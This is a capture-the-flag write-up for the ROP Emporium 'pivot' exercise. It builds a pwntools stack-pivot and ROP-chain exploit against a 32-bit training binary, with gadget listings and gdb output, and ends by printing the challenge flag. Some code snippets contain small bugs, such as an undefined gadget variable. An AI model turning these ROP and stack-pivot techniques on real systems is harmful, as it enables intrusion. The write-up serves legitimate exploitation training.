

# GIST
The goal of this exercise is to perform 2 actions:
1. Pivot the stack pointer to a new location on the heap
2. Use a ROP chain to find the address of a linked library, and then return to a specific function included in that library. 

# Link
Read about it [here](https://ropemporium.com/challenge/pivot.html)


# Identifying and Analyzing Functions
First, let's look at functions imported from shared libraries:
```sh
ubuntu@ubuntu:~/ropemporium/pivot$ rabin2 -i pivot32
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x080484c0 GLOBAL FUNC       read
2   0x080484d0 GLOBAL FUNC       printf
3   0x080484e0 GLOBAL FUNC       free
4   0x080484f0 GLOBAL FUNC       malloc
5   0x08048500 GLOBAL FUNC       puts
6   0x00000000 WEAK   NOTYPE     __gmon_start__
7   0x08048510 GLOBAL FUNC       exit
8   0x08048520 GLOBAL FUNC       foothold_function
9   0x08048530 GLOBAL FUNC       __libc_start_main
10  0x08048540 GLOBAL FUNC       setvbuf
11  0x08048550 GLOBAL FUNC       memset

```

Now, let's look at innate functions: 
	
```sh
ubuntu@ubuntu:~/ropemporium/pivot$ rabin2 -qs pivot32 | grep -ve imp -e ' 0 '
0x0804a03c 4 stdout
0x080488bc 4 _IO_stdin_used
0x0804a040 1 completed.7283
0x08048750 199 pwnme
0x08048817 21 uselessFunction
0x080488a0 2 __libc_csu_fini
0x080485c0 4 __x86.get_pc_thunk.bx
0x08048840 93 __libc_csu_init
0x080485b0 2 _dl_relocate_static_pie
0x080488b8 4 _fp_hw
0x0804a03c 4 stdout@@GLIBC_2.0
0x08048686 202 main

```

Let's also use pwntools to see if there are any functions that we haven't identified with these 2 commands:

```sh
from pwn import *
from pprint import pprint
offset = 40

context.arch = 'i386'

elf = ELF("./pivot32")
p = elf.process()

# let's print allll the functions
pprint(elf.symbols)
~                                                                                                              
~                                                                                                              
{'': 134520892,
	...
 'foothold_function': 134513952,
	...
 'plt.foothold_function': 134513952,
	...
 'usefulGadgets': 134514732,
 'uselessFunction': 134514711}

```

Okay, so a couple of things:
1. foothold_function -- interesting name, also has a plt entry so part of a dynamically linked library (probably libpivot32.so)
2. usefulGadgets 


Let's verify that foothold function is in the imported libpivot32.so library:

	```sh
	ubuntu@ubuntu:~/ropemporium/pivot$ strings libpivot32.so  | grep foothold
	foothold_function
	foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot
	foothold_function
	```

Now let's run the binary to get an idea of what it does:
```sh
ubuntu@ubuntu:~/ropemporium/pivot$ ./pivot32
pivot by ROP Emporium
x86

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0xf7dbbf10
Send a ROP chain now and it will land there
> shed 
Thank you!

Now please send your stack smash
> hyperview
Thank you!

Exiting
```

So, looks like the program gives us the location of the heap that we are supposed to pivot the esp to... Pretty nice  
We'll send a ROP chain to handle task 2 (getting the flag), and then perform stack smashing to the stack.  
Maybe usefulGadgets will help us with this?  
Let's take a look in gdb:
```asm
gef➤  disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0804882c <+0>:	pop    eax
   0x0804882d <+1>:	ret    
   0x0804882e <+2>:	xchg   esp,eax
   0x0804882f <+3>:	ret    
   0x08048830 <+4>:	mov    eax,DWORD PTR [eax]
   0x08048832 <+6>:	ret    
   0x08048833 <+7>:	add    eax,ebx
   0x08048835 <+9>:	ret    
   0x08048836 <+10>:	xchg   ax,ax
   0x08048838 <+12>:	xchg   ax,ax
   0x0804883a <+14>:	xchg   ax,ax
   0x0804883c <+16>:	xchg   ax,ax
   0x0804883e <+18>:	xchg   ax,ax
````

Looking for more gadgets...

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep "mov"
0x080485a3 : mov ebx, dword ptr [esp] ; ret

ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep "pop ebx"
0x080484a9 : pop ebx ; ret
```

Okay, should be able to set up the stack smash like this:

# Pivoting the Stack

So let's set up the stack accordingly:

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip  
 	 = address of ROP gadget		 4B
	 = pop eax; ret
	_______________________________________
	eax
	 = address to pivot to			 4B	
	_______________________________________
	eip2
	 = ROP gadget 				 4B
   	 = xchg   esp,eax
	______________________________________


Let's spin up a pwntools script that will grab these addresses, and put them into a ROP chain:

	```python
	from pwn import *
	from pprint import pprint
	offset = 40
	
	context.arch = 'i386'
	
	elf = ELF("./pivot32")
	p = elf.process()
	rop = ROP(elf)
	
	#pprint(elf.symbols)
	#pprint(rop.gadgets)
	
	# uncomment next 3 lines to debug
	gdb.attach(p, gdbscript='''
	#script
	break *pwnme+180
	''')
	
	#debugging for rop gadgets
	prompt = p.recvuntil(": ")
	#print("prompt 1 is: ", prompt)
	
	line = p.recvline()
	line = line.decode("ascii") 
	x = re.findall("0x[\w]{7,8}", line)                                                                    
	#print("x is: " , x)
	
	hex_str = x[0][2:]
	pivot_addr = p32(int(hex_str,16))
	#print("send rop chain to : " , pivot_addr)
	
	rop_chain_prompt = p.recvuntil(">")
	
	
	# pop eax; ret
	eax_gadget = p32(rop.eax.address)
	
	# xchg esp, eax; ret
	pivot_gadget = p32(elf.symbols['usefulGadgets']+2)
	
	rop_chain = [
	        b'shed'
	        ]
	
	rop_chain = b"".join(rop_chain)
	p.sendline(rop_chain)
	
	stack_smash_prompt = p.recvuntil(">")
	
	buf = b"A" * offset  
	fake_ebp = b"B" * 4
	
	stack_smash_payload = [
	        buf,
	        fake_ebp,
	        eax_gadget,
	        pivot_addr,
	        pivot_gadget
	        ]
	
	stack_smash_payload = b"".join(stack_smash_payload)
	p.sendline(tack_smash_payload)
	p.interactive()
	```

# Lazy Linking

Okay sweet, we successfully pivoted the stack. Now things get a bit tricky...
We need to set up a ROP chain that will find the address of the libpivot32.so library, and then find the ret2win function within it


Remember foothold function?

	```sh
	gef➤  got
	[0x804a024] foothold_function  →  0x8048526
	```

Since foothold function is in this libpivot library, and has a got entry, that means that it is being loaded and called by the pivot32 library

One sec, is ret2win in the libpivot32.so library?

	```sh
	ubuntu@ubuntu:~/ropemporium/pivot$ strings libpivot32.so  | grep ret2win
	ret2win
	ret2win
	```

Yes:)

After using these resources...  
    [rop emporium](https://ropemporium.com/guide.html#Appendix%20A)  
	[live overflow vid](https://www.youtube.com/watch?v=kUk5pw4w0h4)

We should have a good idea of how the plt and got work together, and how lazy-linking works

Initially, since lazy-linking is used, the got entry for foothold_function just points to the plt, which then points to the `_dl_runtime_resolve_avx()` function in order to load and resolve the address of foothold_function in memory.  

In other words, the inital got entry for foothold_function just points to a bunch of instructions (used for resolution) in the plt, NOT the actual address of foothold_function.

We can see this in gdb:

```asm
gef➤  got

GOT protection: Partial RelRO | GOT functions: 10
 
[0x804a00c] read@GLIBC_2.0  →  0xf7e5db60
[0x804a010] printf@GLIBC_2.0  →  0xf7dbc2a0
[0x804a014] free@GLIBC_2.0  →  0x80484e6
[0x804a018] malloc@GLIBC_2.0  →  0xf7deed50
[0x804a01c] puts@GLIBC_2.0  →  0xf7dd9c30
[0x804a020] exit@GLIBC_2.0  →  0x8048516
[0x804a024] foothold_function  →  0x8048526 -------------------------------------------------
[0x804a028] __libc_start_main@GLIBC_2.0  →  0xf7d86df0  				    |	
[0x804a02c] setvbuf@GLIBC_2.0  →  0xf7dda420						    |
[0x804a030] memset@GLIBC_2.0  →  0xf7eb9ad0						    |
gef➤  x/4i 0x8048526						    			    |
   0x8048526 <foothold_function@plt+6>:	push   0x30     <------------------------------------
   0x804852b <foothold_function@plt+11>:	jmp    0x80484b0  ------------------------
   0x8048530 <__libc_start_main@plt>:	jmp    DWORD PTR ds:0x804a028	        	 |
   0x8048536 <__libc_start_main@plt+6>:	push   0x38				         |
gef➤  x/4i 0x80484b0						    			 |
   0x80484b0:	push   DWORD PTR ds:0x804a004       <--- linkmap hdr----------------------   			        
   0x80484b6:	jmp    DWORD PTR ds:0x804a008       <--- _dl_runtime_resolve_avx()
   0x80484bc:	add    BYTE PTR [eax],al						    |
   0x80484be:	add    BYTE PTR [eax],al						    |
gef➤  
```


So we want to call the foothold function so that the got is updated and holds the actual address of foothold_function (after it is resolved and loaded into the program)

Let's update our ROP chain accordingly in our python script:

```python
fhold_addr = p32(elf.symbols['plt.foothold_function'])
#print("fhold fxn is at:" , fhold_addr)

rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        b'shed'
        ]
```

Let's run it and see if got updates. Insert breakpoint at the call to foothold_function, then step through until the got has been updated and holds the resolved foothold_function address. 

```asm
gef➤  got
[0x804a024] foothold_function  →  0xf7f7177d
```

```asm
gef➤  disass foothold_function
Dump of assembler code for function foothold_function:
   0xf7f7177d <+0>:	push   ebp
   0xf7f7177e <+1>:	mov    ebp,esp
   0xf7f71780 <+3>:	push   ebx
   0xf7f71781 <+4>:	sub    esp,0x4
   0xf7f71784 <+7>:	call   0xf7f71a18 <__x86.get_pc_thunk.ax>
   0xf7f71789 <+12>:	add    eax,0x1877
   0xf7f7178e <+17>:	sub    esp,0xc
   0xf7f71791 <+20>:	lea    edx,[eax-0x15d0]
=> 0xf7f71797 <+26>:	push   edx
   0xf7f71798 <+27>:	mov    ebx,eax
   0xf7f7179a <+29>:	call   0xf7f71640 <puts@plt>
   0xf7f7179f <+34>:	add    esp,0x10
   0xf7f717a2 <+37>:	nop
   0xf7f717a3 <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0xf7f717a6 <+41>:	leave  
   0xf7f717a7 <+42>:	ret    
End of assembler dump.
```

Okay, sweet, now the got entry has been updated.
Let's locate the ret2win function
	```asm
	gef➤  disass ret2win
	Dump of assembler code for function ret2win:
	   0xf7f71974 <+0>:	push   ebp
	   0xf7f71975 <+1>:	mov    ebp,esp
		...etc...
	```

Okay so offset of ret2win is `0xf7f71974 - 0xf7f7177d = 503`


# Crafting our Rop Chain (task 2)
So there are three options (per the instructions [here](https://ropemporium.com/challenge/pivot.html) here for how we want to return to ret2win:



Let's go with option 3...

So let's craft our rop chain.

We first want to call foothold_address, then add 503 to it. Let's do that and work from there...  
We can use just use the built-in features of pwntools to grab the address of foothold_function in the got.  
We'll put the foothold_function@got address onto the stack, then pop it into the eax register

```python
fhold_got = p32(elf.symbols['got.foothold_function'])
eax = fhold_got
eax_gadget = p32(rop.eax.address)
rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
	eax_gadget,
	eax
        ]
```

Debug, and see if the address has been updated properly

```asm
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0804a024  →  0xf7ecf77d  →  <foothold_function+0> push ebp
$ebx   : 0x0       
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xf7cc8f1c  →  "shed\n"
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0xf7eb5000  →  0x001ead6c
$edi   : 0xf7eb5000  →  0x001ead6c
$eip   : 0x0804882d  →  <usefulGadgets+1> ret 
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xf7cc8f1c│+0x0000: "shed\n"	 ← $esp
0xf7cc8f20│+0x0004: 0x0000000a ("\n"?)
0xf7cc8f24│+0x0008: 0x00000000
0xf7cc8f28│+0x000c: 0x00000000
0xf7cc8f2c│+0x0010: 0x00000000
0xf7cc8f30│+0x0014: 0x00000000
0xf7cc8f34│+0x0018: 0x00000000
0xf7cc8f38│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048825 <uselessFunction+14> push   0x1
    0x8048827 <uselessFunction+16> call   0x8048510 <exit@plt>
    0x804882c <usefulGadgets+0> pop    eax
 →  0x804882d <usefulGadgets+1> ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pivot32", stopped 0x804882d in usefulGadgets (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804882d → usefulGadgets()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  got

GOT protection: Partial RelRO | GOT functions: 10
 
[0x804a00c] read@GLIBC_2.0  →  0xf7dbbb60
[0x804a010] printf@GLIBC_2.0  →  0xf7d1a2a0
[0x804a014] free@GLIBC_2.0  →  0x80484e6
[0x804a018] malloc@GLIBC_2.0  →  0xf7d4cd50
[0x804a01c] puts@GLIBC_2.0  →  0xf7d37c30
[0x804a020] exit@GLIBC_2.0  →  0x8048516
[0x804a024] foothold_function  →  0xf7ecf77d
[0x804a028] __libc_start_main@GLIBC_2.0  →  0xf7ce4df0
[0x804a02c] setvbuf@GLIBC_2.0  →  0xf7d38420
[0x804a030] memset@GLIBC_2.0  →  0xf7e17ad0
```

So, right after foothold_function is called, we pop the address of foothold_function's got entry into register eax...  
But we want to get the address of foothold_function in memory (0xf7ecf77d) into the eax register...  
Luckily we have a ROP gadget to do that:)

```asm
gef➤  disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0804882c <+0>:	pop    eax
   0x0804882d <+1>:	ret    
   0x0804882e <+2>:	xchg   esp,eax
   0x0804882f <+3>:	ret    
   0x08048830 <+4>:	mov    eax,DWORD PTR [eax]  <---------- :)
   0x08048832 <+6>:	ret    
   0x08048833 <+7>:	add    eax,ebx		    <---------- Then let's pop 503 into ebx, then add ebx to eax
   0x08048835 <+9>:	ret    
   0x08048836 <+10>:	xchg   ax,ax
   0x08048838 <+12>:	xchg   ax,ax
   0x0804883a <+14>:	xchg   ax,ax
   0x0804883c <+16>:	xchg   ax,ax
   0x0804883e <+18>:	xchg   ax,ax
````


Let's find a "pop ebx" instruction, using pwntools this time

```python3
ubuntu@ubuntu:~/ropemporium/pivot$ python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> from pprint import pprint
>>> context.arch = 'i386'
>>> elf = ELF("./pivot32")
[*] '/home/ubuntu/ropemporium/pivot/pivot32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
>>> p = elf.process()
[x] Starting local process '/home/ubuntu/ropemporium/pivot/pivot32'
[+] Starting local process '/home/ubuntu/ropemporium/pivot/pivot32': pid 2952
>>> rop = ROP(elf)
[*] Loaded 11 cached gadgets for './pivot32'
>>> pprint(rop.gadgets)
{134513810: Gadget(0x8048492, ['ret'], [], 0x4),
 134513830: Gadget(0x80484a6, ['add esp, 8', 'pop ebx', 'ret'], ['ebx'], 0x10),
 134513833: Gadget(0x80484a9, ['pop ebx', 'ret'], ['ebx'], 0x8),
 134514162: Gadget(0x80485f2, ['add esp, 0x10', 'leave', 'ret'], ['ebp', 'esp'], 0x2540be413),
 134514165: Gadget(0x80485f5, ['leave', 'ret'], ['ebp', 'esp'], 0x2540be403),
 134514732: Gadget(0x804882c, ['pop eax', 'ret'], ['eax'], 0x8),
 134514837: Gadget(0x8048895, ['add esp, 0xc', 'pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x20),
 134514840: Gadget(0x8048898, ['pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x14),
 134514841: Gadget(0x8048899, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10),
 134514842: Gadget(0x804889a, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc),
 134514843: Gadget(0x804889b, ['pop ebp', 'ret'], ['ebp'], 0x8)}
>>> rop.ebx.address
134513833
>>> rop.ebx
Gadget(0x80484a9, ['pop ebx', 'ret'], ['ebx'], 0x8)
>>> 
```


Changing rop chain now:

```python3
fhold_got = p32(elf.symbols['got.foothold_function'])
eax = fhold_got
eax_gadget = p32(rop.eax.address)
ebx_gadget = p32(rop.ebx.address)
add_gadget = p32(elf.symbols['usefulGadgets']+7)

rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        eax_gadget,             # 1. pop eax; ret
        eax,                    #       &foothold_function@got.plt
        ebx_gadget,             # 5. pop ebx; ret 
        p32(503),               #       503 is popped into ebx
        add_gadget,             # 6. add eax, ebx; ret
        b'shed'
        ]
```

Let's see if we get the right address in eax

```asm
gef➤  contin
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000a in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xf7f65974  →  <ret2win+0> push ebp
$ebx   : 0x1f7     
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xf7d5ef30  →  0x00000000
$ebp   : 0x42424242 ("BBBB"?)
$esi   : 0xf7f4b000  →  0x001ead6c
$edi   : 0xf7f4b000  →  0x001ead6c
$eip   : 0xa       
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xf7d5ef30│+0x0000: 0x00000000	 ← $esp
0xf7d5ef34│+0x0004: 0x00000000
0xf7d5ef38│+0x0008: 0x00000000
0xf7d5ef3c│+0x000c: 0x00000000
0xf7d5ef40│+0x0010: 0x00000000
0xf7d5ef44│+0x0014: 0x00000000
0xf7d5ef48│+0x0018: 0x00000000
0xf7d5ef4c│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xa
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pivot32", stopped 0xa in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r eax
eax            0xf7f65974          0xf7f65974
gef➤  x/wx $eax
0xf7f65974:	0x53e58955
gef➤  x/wx ret2win
0xf7f65974 <ret2win>:	0x53e58955
gef➤  
```

Neat.  
Now we can just call eax to jump to the address of the ret2win function!  
Let's find a rop gadget to do that


```sh
ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep ": call eax"
0x080485f0 : call eax
```

Let's find the offset (even though we could just pass in the address manually, this is good practice):

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ readelf -S pivot32
There are 30 section headers, starting at offset 0x18f0:
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000040 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ec 0001ec 000130 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804831c 00031c 0000c3 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080483e0 0003e0 000026 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048408 000408 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048428 000428 000010 08   A  5   0  4
  [10] .rel.plt          REL             08048438 000438 000050 08  AI  5  23  4
  [11] .init             PROGBITS        08048488 000488 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080484b0 0004b0 0000b0 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048560 000560 000008 08  AX  0   0  8
  [14] .text             PROGBITS        08048570 000570 000332 00  AX  0   0 16	<------- where all instructions are
  [15] .fini             PROGBITS        080488a4 0008a4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080488b8 0008b8 000118 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080489d0 0009d0 00004c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048a1c 000a1c 000130 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000034 04  WA  0   0  4
  [24] .data             PROGBITS        0804a034 001034 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a03c 00103c 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 00103c 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 001068 0004d0 10     28  48  4
  [28] .strtab           STRTAB          00000000 001538 0002b3 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 0017eb 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)

```

0x080485f0 - 0x08048570 = 0x80 = 16 * 8 = 64 * 2 = 128

Using gdb to find the actual location in memory...

```asm
gef➤  info files
Symbols from "/home/ubuntu/ropemporium/pivot/pivot32".
Native process:
	Using the running image of attached process 4501.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/ubuntu/ropemporium/pivot/pivot32', file type elf32-i386.
	Entry point: 0x8048570
	...
	0x08048570 - 0x080488a2 is .text
	...	
gef➤  x/i main
   0x8048686 <main>:	lea    ecx,[esp+0x4]
gef➤  x/i 0x08048570+0x80
   0x80485f0 <deregister_tm_clones+32>:	call   eax
gef➤  
   0x80485f2 <deregister_tm_clones+34>:	add    esp,0x10
```

Okay, this should do it:

```python
call_eax_gadget = p32(elf.symbols['deregister_tm_clones'] + 32)
rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        eax_gadget,             # 1. pop eax; ret
        eax,                    #       &foothold_function@got.plt
        mov_gadget,             # 4. mov eax dword ptr [eax]; ret
        ebx_gadget,             # 5. pop ebx; ret 
        p32(503),               #       503 is popped into ebx
        add_gadget,             # 6. add eax, ebx; ret
        call_eax_gadget
        ]
```

Voila.

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ python3 exploit.py 2>/dev/null  | grep ROPE 
ROPE{TITLEFIGHT}

```


